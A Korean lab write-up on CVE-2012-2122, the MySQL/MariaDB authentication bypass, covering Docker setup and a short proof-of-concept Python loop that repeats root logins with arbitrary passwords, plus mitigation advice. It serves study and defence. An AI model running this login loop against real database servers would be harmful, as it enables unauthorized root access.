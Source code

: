 # CVE-2012-2122

**Contributors**

-   [배소정(@baethwjd2)](https://github.com/baethwjd2) 

<br/>

### 요약

-   CVE-2012-2122는 MySQL과 MariaDB의 특정 버전에서 발견된 **인증 우회** 취약점임
-   특정 버전의 MySQL은 비밀번호의 해시값을 memcmp 함수로 캐스팅하여 인증함
-   memcmp 함수는 -128 ~ 127 사이의 값을 반환하므로, 잘못된 비밀번호를 입력하더라도 1/256의 확률로 로그인에 성공할 수 있음
-   따라서 임의의 비밀번호로 로그인을 반복함으로써, 악의적인 공격자가 DB의 root 계정을 쉽게 획득할 수 있음

<br/>

### 환경 구성 및 실행

-   `docker compose up -d` 커맨드를 입력해 테스트 환경을 실행 (취약점이 보고된 MySQL 5.5.22의 컨테이너 이미지 사용)
-   `pip install pymysql` 커맨드로 poc.py 실행을 위한 pymysql 패키지 설치
-   `python3 poc.py` 를 실행해 DB의 **root 계정**을 탈취할 수 있음. 유저 정보를 출력하여 root 계정으로 로그인이 됐는지 확인함

<br/>

### poc.py
1/256의 확률로 로그인에 성공할 수 있으므로, 충분한 횟수만큼 로그인을 반복 시행함
```
for i in range(1, 10001):
    password = str(i)
    conn = pymysql.connect(user=user, password=password, host=host, port=port, charset='utf8')
```

유저 정보를 확인하여 root 계정 로그인에 성공했음을 확인함
```
cursor.execute("SELECT user()") 
```

<br/>

### 결과

![](result.png)

<br/>

### 정리

-   해당 취약점을 통해 공격자는 root를 포함한 특정 사용자 계정에 로그인하여, 인가되지 않은 권한을 획득할 수 있음. 
-   이러한 상황을 방지하기 위해, 가장 먼저 관리자는 DB 서버의 네트워크가 노출되지 않도록 노력해야 함. 즉, 인가되지 않은 액세스를 차단할 수 있도록 미리 서버를 설정해야 함. 그리고 주기적으로 서비스 취약점을 모니터링하고 패치해야 함.
